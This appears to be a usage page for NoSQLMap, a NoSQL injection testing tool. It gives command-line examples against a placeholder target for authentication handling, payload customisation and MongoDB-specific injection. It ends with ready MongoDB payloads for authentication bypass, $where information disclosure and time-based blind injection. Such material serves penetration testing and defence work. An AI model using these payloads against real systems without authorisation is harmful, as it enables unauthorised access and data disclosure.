 ## Authentication Methods

```bash
# HTTP Basic authentication
python nosqlmap.py -t http://target.com/api -p query --auth-type basic --auth-cred admin:password

# Bearer token authentication
python nosqlmap.py -t http://target.com/api -p query --header "Authorization: Bearer token123"

# API key authentication
python nosqlmap.py -t http://target.com/api -p query --header "X-API-Key: key123"

# Session-based authentication
python nosqlmap.py -t http://target.com/api -p query --cookie "session=sessionvalue"
```

## Payload Customization

```bash
# Custom payload file
python nosqlmap.py -t http://target.com/api -p query --payloads payloads.txt

# Specific payload type
python nosqlmap.py -t http://target.com/api -p query --payload-type regex

# Manual payload testing
python nosqlmap.py -t http://target.com/api -p query --payload "{'$where': 'sleep(5000)'}"

# Encoding options
python nosqlmap.py -t http://target.com/api -p query --encode url
```

## MongoDB Specific Features

### BSON Injection
```bash
# BSON operator injection
python nosqlmap.py -t http://target.com/api -p filter --mongo-bson

# GridFS exploitation
python nosqlmap.py -t http://target.com/api -p file --mongo-gridfs

# Aggregation pipeline injection
python nosqlmap.py -t http://target.com/api -p pipeline --mongo-aggregate

# MapReduce injection
python nosqlmap.py -t http://target.com/api -p map --mongo-mapreduce
```

### Common MongoDB Payloads
```javascript
// Authentication bypass
{"$ne": null}
{"$exists": true}
{"$regex": ".*"}

// Information disclosure
{"$where": "this.username"}
{"$where": "return true"}

// Time-based blind
{"$where": "sleep(5000)"}

```